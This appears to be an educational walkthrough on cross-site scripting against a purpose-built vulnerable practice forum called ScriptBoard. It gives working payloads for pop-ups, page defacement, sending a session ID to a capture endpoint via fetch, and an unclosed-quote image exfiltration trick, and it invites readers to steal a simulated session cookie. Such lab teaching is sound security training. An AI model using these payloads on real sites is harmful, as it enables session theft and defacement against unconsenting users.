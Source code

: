 ```yaml
---
title: Cross-Site Scripting (XSS) Walkthrough
---
```

Cross-Site Scripting (XSS) is a type of injection attack where scripts, links, or other malicious code is inserted into user-supplied content on a website. [OWASP](https://owasp.org/) considers "cross-site scripting" to be a misnomer since not all attacks involve more than one website. Nevertheless, it is the industry-accepted name for this type of attack.

_**Warning:** Attempting to attack a website or computer system without authorization is illegal. While doing this walkthrough and experimenting with the website, you have permission to practice XSS exploits on [ScriptBoard.dicax.org](https://scriptboard.dicax.org). Nevertheless, you are **not** permitted to attack or seek vulnerabilities on the web server or its host. You should use the knowledge you gain from these activities to make your own applications more secure. You should not use the knowledge and skills you gain to attack other sites without permission from the owners. ScriptBoard is designed to restrict your exploits to your own computer and session. You should not attempt to break into other users' sessions._

[ScriptBoard](https://scriptboard.dicax.org) simulates an online forum or message board with two special characteristics. First, it is vulnerable to XSS type exploits. Second, each session is restricted to viewing the messages posted from that session. In other words, you can only see your own message. This is to keep you from posting exploits that would affect some else.

Browse to [https://scriptboard.dicax.org](https://scriptboard.dicax.org). You will see an empty message. Write a message and click `Post` to see how it works.

The message board supports HTML so that you can format text. (You will exploit that later.) For now, post something benign like bolding some text.

```
Rise and <b>shout!</b>
```

Create a simple exploit by putting a popup message on the screen. This sort of thing is a quick way to test whether a site has XSS vulnerabilities.

```
<span onmouseover="alert('gotcha!')">My name is Scott!</span>
```

Hover over the new message ahd you should get a message.

You can use some script to **deface** the site by changing text. A more sophisticated attack might even add photos. Compared to what's possible, this one is relatively mild:

```
<b>Show me.</b>
<script>
document.getElementById("sitename").textContent = "Freefall Experience";
</script>
```

Notice that the title has changed. Of course, this walkthrough gave away that the needed element ID is `sitename` Suppose you didn't know the ID. You could find it by opening the inspector in the browser and locating the appropriate element in the HTML tree.

You can retrieve data from other sites and insert it. Here's an example that gets a scripture from our [Scripture of the Day service](https://scripture.dicax.org) and inserts it into the message board.

```
<span id="xss43"></span>
<script>
fetch("https://scripture.dicax.org/api/second")
    .then((response) => response.json())
    .then((json) => document.getElementById("xss43").textContent = json.text);
</script>
```

More damaging would be to steal data from a site and post it somewhere else. ScriptBoard has a URL for capturing information at [https://scriptboard.dicax.org/Capture](https://scriptboard.dicax.org/Capture). Anything you put in the query string or the POST data will be captured and you can view all captures by browsing to [https://scriptboard.dicax.org/ViewCaptures](https://scriptboard.dicax.org/ViewCaptures). (A `Captures` link is in the upper-right.)

The page has a hidden element storing the `Session ID`. Retrieve that data and send it to the capture URL like this:

```
<script>
fetch("/Capture?id=" + document.getElementById("sessionId").textContent);
</script>
No exploit here. Nope, definitely not!
```

Now look at the [ViewCaptures](https://scriptboard.dicax.org/ViewCaptures) page to see what has been collected.

Scripting doesn't have to be enabled to successfully apply an XSS attack. Here we deliberately fail to close quotes on an image link. The browser will treat everything up to the next quote as part of the query string. And, since the link is to the `Captures` URL the data will be captured. After putting this in a post, go check [ViewCaptures](https://scriptboard.dicax.org/ViewCaptures) to see what it found.

```
Hello.<img src="/Capture?data=
```

One common way to prevent XSS attacks is to HTML encode all user-provided content. While this method doesn't support rich text, it ensures that no malicious code can be injected. ScriptBoard has a "safe" version of the main page does just that; HTML Encode all user-supplied data. Click the `Safe` link in the upper-right menu to see all of the posts without exploits.

## On Your Own

You can experiment with other XSS exploits on the site. Try to do the following, or come up with your own exploits:

* The page has some JavaScript that will unscramble a hidden message. Make that message appear somewhere or send it to the captures.
* The page has a hidden `sessionId` capture or display that information.
* Steal the session cookie and send it to the captures. (Note: The real session cookie is protected from JavaScript. The one you can find with an exploit is a simulated session cookie.)
* Change colors or fonts.

_**Remember:** You are authorized to experiment with exploits on your own ScriptBoard session. While the server doesn't have known cross-session vulnerabilities we still don't authorize you to attempt breaking into the server or accessing other sessions._